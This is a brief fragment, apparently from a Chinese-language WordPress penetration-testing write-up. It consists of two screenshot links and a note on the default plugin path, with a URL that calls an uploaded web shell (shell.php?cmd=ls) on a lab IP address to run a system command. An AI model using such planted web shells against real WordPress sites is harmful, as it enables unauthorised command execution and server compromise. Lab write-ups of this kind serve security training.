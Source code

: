 ![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/7TeCOkV9gCdqhlxiLMR3uWEF8xE-HVeKtbuQtRa1aUw.png?raw=true)

插件默认位置：

`http://10.0.2.15/wordpress/wp-content/plugins/shell.php?cmd=ls`

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/rZkqiX0nEFWBKQUuUykVuBJBS0JCK5MmKUATwNWI9Hs.png?raw=true)
